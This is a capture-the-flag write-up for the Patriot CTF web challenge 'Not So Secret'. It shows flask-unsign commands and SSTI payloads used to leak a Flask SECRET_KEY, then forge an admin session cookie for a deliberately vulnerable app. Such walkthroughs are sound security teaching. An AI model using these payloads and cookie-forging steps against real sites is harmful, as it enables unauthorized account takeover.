 # Patriot CTF

## Web

### Not So Secret

**Difficulty:** Medium

**Statement:** I am creating the next big social networking platform, but I have a history of setting up unsecured software.

If you can log in to the admin user, I will give you the flag.

Someone hacked my site after I read his message, so I don't read the DMs sent to me anymore! > :( 

On top of that, I'm imposing an even stricter special character filter because I don't really know how to patch my code.

p.s. To save you time, don't try to get a reverse shell

***

When logging into the site, you can see that the session cookie is a Flask cookie:

```
.eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY. YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q
```

I start by decoding the cookie with **flask-unsign** :

```
flask-unsign --decode --cookie 'eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF- TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY. YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q'
```

Cookie value:

```py
{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '2'}
```

We can see that the value `'_user_id'` is 2.
It is very likely that the value 1 is the administrator account.

I then try to brute force the cookie by dictionary attack but not conclusively:

```
flask-unsign --unsign --cookie ". eJwlzjEOwjAMBdC7eGaI7X4n6WVQnNiCtaUT4u4g8U7w3nTPI84H7a_jihvdn4t2mqEo3vsaYEHFcuUsHdgcm3plzEB6baHSCrqYhLFnaI7KGsk8UYRzYlpzF-TiluI2TIaoDNWiLS2kcYZV3mou6CpjlCaVfpHrjOO_Ufp8AYinLpY. YmzqWA.f1mFmMrseT1CpljXeYZAInT8c_Q" --wordlist ~/rockyou.txt --no-lit
eral-eval
```

We are missing the key to sign our Flask cookie, so I decide to look at the web server side to get this value.

On the message sending page, I notice that a SSTI (Server Side Template Injection) flaw is exploitable thanks to a simple payload: `{{7*'7'}}`

![image](https://user-images.githubusercontent.com/49941629/166097821-b3fa5a63-abac-40f1-bfe5-00b2e5cae5ab.png)

So I'll try to recover the server configuration by injecting the payload `{{config}}` :

```
Just sent your message: <Config {'ENV': 'production',
DEBUG': False,
'TESTING': False,
PROPAGATE_EXCEPTIONS': None, 
PRESERVE_CONTEXT_ON_EXCEPTION': None, 
SECRET_KEY': 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd', 
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 
USE_X_SENDFILE': False, 
'SERVER_NAME': None, 
'APPLICATION_ROOT': '/', 
'SESSION_COOKIE_NAME': 'session', 
'SESSION_COOKIE_DOMAIN': False,
'SESSION_COOKIE_PATH': None, 
'SESSION_COOKIE_HTTPONLY': False, 
'SESSION_COOKIE_SECURE': False, 
'SESSION_COOKIE_SAMESITE': None, 
'SESSION_REFRESH_EACH_REQUEST': True, 
'MAX_CONTENT_LENGTH': None, 
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 
TRAP_BAD_REQUEST_ERRORS': None, 
TRAP_HTTP_EXCEPTIONS': False, 
EXPLAIN_TEMPLATE_LOADING': False, 
'PREFERRED_URL_SCHEME': 'http', 
'JSON_AS_ASCII': True, 
'JSON_SORT_KEYS': True, 
'JSONIFY_PRETTYPRINT_REGULAR': False, 
'JSONIFY_MIMETYPE': 'application/json', 
'TEMPLATES_AUTO_RELOAD': None, 
'MAX_COOKIE_SIZE': 4093, 
'SQLALCHEMY_DATABASE_URI': 'sqlite:///db.sqlite', 
'SQLALCHEMY_TRACK_MODIFICATIONS': False, 
'UPLOAD_FOLDER': '/app/app/uploads', 
'SQLALCHEMY_BINDS': None, 
'SQLALCHEMY_NATIVE_UNICODE': None, 
'SQLALCHEMY_ECHO': False, 
'SQLALCHEMY_RECORD_QUERIES': None, 
'SQLALCHEMY_POOL_SIZE': None,
'SQLALCHEMY_POOL_TIMEOUT': None, 
'SQLALCHEMY_POOL_RECYCLE': None, 
'SQLALCHEMY_MAX_OVERFLOW': None, 
'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 
'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

I get the value of the key: `'SECRET_KEY': 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd'` and change the cookie to match the admin account :

```
flask-unsign --sign --cookie "{'_fresh': True, '_id': 'ce350b99da512575db31f09554b543b715ce5fb78e328059262e61bfe3fa713ef11c5021fc5c68bb25fd18f2b6a62a232a33038f6e281fe67147fd53d0aa0827', '_user_id': '1'}" --secret 'qHIMoRzDyjmWXmtOVYXRUomyOiBaNd'
```

![image](https://user-images.githubusercontent.com/49941629/166097953-0f4dcb33-87fe-4fc6-bf3f-efcbc8217dd3.png)

Now I just have to authenticate with the admin cookie and get the flag.

Flag: PCTF{y0u_can_s1gn_my_c00k13s_anyt1m3_;)}

